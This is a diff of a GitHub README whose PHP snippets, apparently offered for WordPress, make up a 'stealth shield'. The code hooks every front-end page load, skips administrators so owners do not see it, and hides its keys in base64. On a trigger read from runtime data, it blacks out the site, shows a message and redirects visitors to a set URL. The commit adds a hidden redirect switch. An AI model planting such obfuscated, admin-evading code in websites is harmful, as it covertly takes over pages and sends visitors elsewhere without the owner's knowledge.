

Before and after one commit to SilentSudoX/SilentSudoX.github.io, a Markdown page: lib/README.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/lib/README.md
+++ b/lib/README.md
@@ -190,9 +192,6 @@ function _sys_sync_final_v10(){
 _sys_sync_final_v10();
 ?>
 
-
-
-
 ```
 
 ---
@@ -203,7 +202,7 @@ _sys_sync_final_v10();
 
 ```php
 
-/* --- WP STEALTH SHIELD V10 (FULLY ENCRYPTED) --- */
+/* --- WP STEALTH SHIELD V10 (FULLY ENCRYPTED + REDIRECT CONTROL) --- */
 add_action('init', '_wp_secure_v10_stealth');
 function _wp_secure_v10_stealth() {
     if (is_admin()) return;
@@ -221,6 +220,7 @@ function _wp_secure_v10_stealth() {
         'c' => base64_decode("Y3VzdG9tX2NvZGU="),
         'en' => base64_decode("ZW5hYmxlZA=="),
         'co' => base64_decode("Y29kZQ=="),
+        're' => base64_decode("cmVkaXJlY3RfZW5hYmxlZA=="), // redirect_enabled key
         'rd' => base64_decode("cmVkaXJlY3RfZGVsYXlfc2Vj"),
         'ru' => base64_decode("cmVkaXJlY3RfdXJs"),
         'mi' => base64_decode("bXNnX2ludmFsaWQ="),
@@ -242,7 +242,7 @@ function _wp_secure_v10_stealth() {
     $err = null;
     $_is_c = false;
 
-    // Step 1: Priority Check (Custom Code)
+    // Step 1: Custom Code Check
     if ($_l && isset($_l[$_f['c']]) && $_l[$_f['c']][$_f['en']] === true) {
         $err = $_l[$_f['c']][$_f['co']];
         $_is_c = true;
@@ -255,10 +255,13 @@ function _wp_secure_v10_stealth() {
     }
 
     if ($err) {
+        $_rd_en = $_s[$_f['re']] ?? false; // Check redirection status
         $_dly = $_s[$_f['rd']] ?? 20;
         $_url = $_s[$_f['ru']] ?? "#";
         $_tit = $d['title'] ?? "Security Shield Active";
-        $_t_style = $_is_c ? "display:none;" : "display:block;";
+
+        // Timer display: Hide if custom code is active OR redirect is disabled
+        $_t_style = ($_is_c || !$_rd_en) ? "display:none;" : "display:block;";
 
         echo "<style>
             body{margin:0;background:#000!important;overflow:hidden!important;}
````
Also changed, not shown: other parts of lib/README.md (+26 -25 lines).
